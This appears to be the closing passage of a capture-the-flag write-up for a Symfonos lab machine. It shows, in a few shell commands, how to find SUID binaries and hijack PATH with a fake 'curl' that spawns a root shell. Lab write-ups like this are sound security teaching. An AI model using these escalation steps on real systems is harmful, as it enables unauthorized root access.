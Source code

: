 ![image](https://user-images.githubusercontent.com/69868171/156569775-a7768775-c1d7-4fce-8718-c809ceeae6ea.png)

```
find / -perm -u=s -type f 2>/dev/null
```
Now that is a strange one `/opt/statuscheck` let run it and see what it does.

![image](https://user-images.githubusercontent.com/69868171/156570123-3944c44e-858f-4e14-998e-3f3f905c07e0.png)

Interesting let `strings` it.

![image](https://user-images.githubusercontent.com/69868171/156570468-0608f3a9-3e9d-4c7c-9262-146732269557.png)

Now seems it running `curl` and the full path is not specify it possible to hijack it which is the path variable we can create our own `curl` and add it to the path.

```
helios@symfonos:/tmp$ echo "/bin/sh" > curl
helios@symfonos:/tmp$ chmod 777 curl
helios@symfonos:/tmp$ export PATH=/tmp:$PATH
helios@symfonos:/tmp$ /opt/statuscheck
```

![image](https://user-images.githubusercontent.com/69868171/156572010-a2e198e8-ac6d-44ea-bd5c-6bdc4ed14287.png)

That it bro we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

